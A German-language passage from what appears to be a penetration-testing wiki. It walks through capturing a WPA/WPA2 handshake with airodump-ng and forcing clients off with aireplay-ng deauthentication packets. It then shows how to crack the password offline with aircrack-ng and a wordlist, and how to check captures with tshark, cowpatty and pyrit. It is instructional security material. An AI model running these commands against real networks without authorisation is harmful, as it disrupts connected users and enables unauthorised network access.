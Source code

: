 ### Handshake-Erfassung

Ein Angriff auf **WPA/WPA2**-Netzwerke kann durchgeführt werden, indem ein **Handshake** erfasst und versucht wird, das Passwort **offline** zu **knacken**. Dieser Prozess umfasst die Überwachung der Kommunikation eines bestimmten Netzwerks und **BSSID** auf einem bestimmten **Kanal**. Hier ist eine vereinfachte Anleitung:

1. Identifizieren Sie die **BSSID**, den **Kanal** und einen **verbundenen Client** des Zielnetzwerks.
2. Verwenden Sie `airodump-ng`, um den Netzwerkverkehr auf dem angegebenen Kanal und der BSSID zu überwachen, in der Hoffnung, einen Handshake zu erfassen. Der Befehl sieht folgendermaßen aus:
```bash
airodump-ng wlan0 -c 6 --bssid 64:20:9F:15:4F:D7 -w /tmp/psk --output-format pcap
```
3. Um die Wahrscheinlichkeit zu erhöhen, einen Handshake zu erfassen, trennen Sie den Client vorübergehend vom Netzwerk, um eine erneute Authentifizierung zu erzwingen. Dies kann mit dem Befehl `aireplay-ng` durchgeführt werden, der Deauthentifizierungs-Pakete an den Client sendet:
```bash
aireplay-ng -0 0 -a 64:20:9F:15:4F:D7 wlan0 #Send generic deauth packets, may not work in all scenarios
```
_Hinweis: Da der Client deauthentifiziert wurde, könnte er versuchen, sich mit einem anderen AP oder in anderen Fällen mit einem anderen Netzwerk zu verbinden._

Sobald im `airodump-ng` einige Handshake-Informationen erscheinen, bedeutet dies, dass der Handshake erfasst wurde und Sie das Lauschen stoppen können:

![](<../../.gitbook/assets/image (172) (1).png>)

Sobald der Handshake erfasst ist, können Sie ihn mit `aircrack-ng` **knacken**:
```
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 64:20:9F:15:4F:D7 /tmp/psk*.cap
```
### Überprüfen, ob der Handshake in der Datei ist

**aircrack**
```bash
aircrack-ng psk-01.cap #Search your bssid/essid and check if any handshake was capture
```
**tshark**
```bash
tshark -r psk-01.cap -n -Y eapol #Filter handshake messages #You should have the 4 messages.
```
[**cowpatty**](https://github.com/roobixx/cowpatty)
```
cowpatty -r psk-01.cap -s "ESSID" -f -
```
_Wenn dieses Tool einen unvollständigen Handshake eines ESSID vor dem vollständigen findet, wird es den gültigen nicht erkennen._

**pyrit**
```bash
apt-get install pyrit #Not working for newer versions of kali
pyrit -r psk-01.cap analyze
```
## **WPA Enterprise (MGT)**
